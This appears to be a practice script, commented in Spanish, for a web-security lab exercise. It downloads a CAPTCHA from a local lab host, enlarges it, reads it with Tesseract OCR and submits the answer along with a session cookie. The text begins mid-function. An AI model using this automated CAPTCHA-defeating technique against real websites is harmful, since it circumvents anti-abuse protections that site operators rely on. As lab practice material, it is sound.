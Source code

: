 ```python
        captchaurl = "http://192.168.100.167/captcha/example6/captcha.png?t="+token[0] 
        urlretrieve(captchaurl,'captcha.png')
    except URLError as e:
        print ("*****Error: No puede descargar la pagina*****");


def resizer():
 print("[+] Redimensionando...");
 im1 = Image.open("captcha.png")
 width, height = im1.size
 im2 = im1.resize((int(width*5), int(height*5)), Image.BICUBIC)
 im2.save("captcha1.png")

 
def tesseract():
    try:
        print("[+] Ejecutando Tesseract...");
        #Run Tesseract, -psm 8, tells Tesseract we are looking for a single word 
        #subprocess.call(['tesseract', 'captcha1.png', 'output', '-psm', '8'])
        subprocess.call(['tesseract', 'captcha1.png', 'output', '8'])
        f = open ("output.txt","r")
        global cvalue
  #Borra los espacios en blanco y las nuevas lineas de la salida Tesseract
        cvaluelines = f.read().replace(" ", "").split('\n')
        cvalue = cvaluelines[0]
        print("-----Captcha: " + cvalue); 
    except Exception as e:
        print ("Error: " + str(e))

  
def send():
    try:
        print("[+] Enviando peticion...");
        urlconcaptcha = "http://192.168.100.167/captcha/example6/submit?captcha="+str(cvalue)+"&Submit+Query"
        print("-----URL: " + urlconcaptcha);
        request = urllib.request.Request(urlconcaptcha,headers={'Cookie':cookie})
        f = urlopen(request)
        response = f.read().decode('utf-8')
        #print(response)
        exito = re.search('Success', response)
        if exito:
            print("-----Conseguido!")
        else:
            print ("-----Fallo!")
    except Exception as e:
        print ("Error: " + str(e))


print("[+] Inicio!");
#Descarga la página y la parsea
getpage();
#Descarga la imagen del captcha
getcaptcha();
#Redimensiona la imagen del captcha 
resizer();
#Usa Tesseract para analizar la imagen del captcha
tesseract();
#Envia la peticion al sitio con los datos del formulario y el captcha
send();
print("[+] Fin!");
```